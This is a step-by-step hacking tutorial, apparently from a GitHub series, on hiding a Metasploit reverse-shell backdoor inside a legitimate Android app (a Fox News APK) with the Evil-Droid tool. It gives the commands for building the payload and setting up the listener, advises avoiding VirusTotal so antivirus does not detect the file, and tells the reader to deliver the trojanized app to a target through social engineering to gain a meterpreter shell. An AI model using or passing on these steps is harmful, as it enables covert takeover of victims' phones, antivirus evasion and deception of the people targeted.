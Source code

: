 ### **Android Hacking: How to Embed a Backdoor into an Android APK**

Mobile devices--smartphones and tablets--are proliferating around the world and slowly overtaking desktop and laptop machines. These mobile devices generally run either the iOS or the Android operating system, with Android comprising the bulk of all mobile device OS's (82%). Considering the growth of the mobile market and the dominance of the Android operating system, it only makes sense that Android hacking is increasingly becoming the leading edge of hacking. As such, we will spend increasing time and tutorials on Android hacking here at GitHub to prepare you for this eventuality.

 https://github.com/Hsnbacha/Android-Hacking/blob/main/Images/Image1.png


This is the third entry in Android Hacking series with Setting up a Android Hacking Lab and Android Basics preceding it. I strongly recommend that you look over Android Basics article before proceeding further into this series.

 

### **Step #1 Download and Install Evil Droid**

 

To embed a backdoor into an Android APK, we will be using Evil-Droid. It's a python script developed by Mascerano Bachir that generates a framework for creating and embedding an APK payload to penetrate Android platforms. 

To download the script, you can clone it into your system by entering;

`kali > git clone https://github.com/M4sc3r4n0/Evil-Droid`

 

(https://github.com/Hsnbacha/Android-Hacking/blob/main/Images/Image2.png)

 
If you get an error message indicating that some of Evil-Droid's dependencies are not available or out-of-date, you may need to upgrade to newer versions of your packages.

` 
kali > apt-get upgrade`

### **Step #2 Give Yourself Execute Permissions**

 

The next step, of course, is to give yourself permission to execute this script. First, navigate to the Evil-Droid directory and then use **chmod** to give yourself execute permission.

` 
kali > cd Evil-Droid`

` 
kali > chmod 775 evil-droid`

 Image 3


###  
**Step #3 Execute Evil Droid**

 

Next, let's execute evil-droid. Evil-droid will check to see whether you have an Internet connection and several pieces of necessary software, including Metasploit.

`kali > ./evil-droid`

 

Image 4

 

_Note_ the bottom warning in RED. Do **NOT** upload the APK to VirusTotal.com as that will trigger an antivirus signature by the AV developers.

### **Step #4 Execute the  Framework**

 

Once evil-droid has successfully located all it's necessary components, you will receive a message like that below asking whether you want to "Execute Framework and services". Click "**Yes**".

 


Image 5
 



### **Step #5 Select Backdoor**

 

You will be greeted by the menu  screen below. You can select any of the backdoors by number. Here we selected "Backdoor APK Original (NEW)".

 

Image 6




### **Step #6 Select IP and Port**

 

Evil-droid will then ask you to set your LHOST (for Metasploit) and display your local IP and Public IP.

 

Image 7

 Then, it will prompt you for your LPORT. Port 4444 is the default port for Metasploit's Meterpreter and other payloads.

 Image 8

 

### **Step #7 Name your Payload**

 

Evil-droid will then ask you to name your payload. Here I named it **GitHUB**, but you can name it whatever pleases you.
 

### **Step #8 Select Your Payload/Listener**

 

Now, we need to select a payload. Evil-droid enables you to use any of the Android payloads from Metasploit including **android/meterpreter/reverse_tcp**. Simply click on the radio button next to the payload you want to embed in the APK.

Image 9



### **Step #9 Download APK and Embed Backdoor**

 

Next, evil-droid prompts us for the APK file we want to embed the backdoor into. Here, I have downloaded the beloved **Foxnews.apk** for embedding our backdoor.

Image 10
 
 

### **Step #10 Select Metasploit Multi-Handler to make a Connection**

In our next step, we need to  tell evil-droid how we are going to connect to the backdoor. Select "Multi-Handler".

 Image 11


We now need to open the multi-handler in Metasploit so that it can "catch" the connection coming back from the embedded payload. 

 
Open Metasploit by entering;

`kali > msfconsole`

Now we need to start the multi-handler and tell Metasploit what IP and port to listen on and which payload to listen for.

`msf > use exploit/multi/handler`

`msf > set PAYLOAD android/meterpreter/reverse_tcp`

`msf > SET LHOST 192.168.1.104`

`msf > set LPORT 4444`

 

Image 12

 

### **Step #11 Deliver the APK to the Target**

 

In this final step, we need to have the APK (with the embedded backdoor) to be installed and executed on the target's Android device. This is where some social engineering skills can prove helpful. You can email the APK or send it via **DropBox** or other file sharing system. If you have physical access to the device, you could simply install it yourself.


Image 13
 
When the target user installs the app to view their "**Fair and Balanced**" FoxNews, it will execute the backdoor and connect back to your system giving you  a meterpreter shell on their android device!
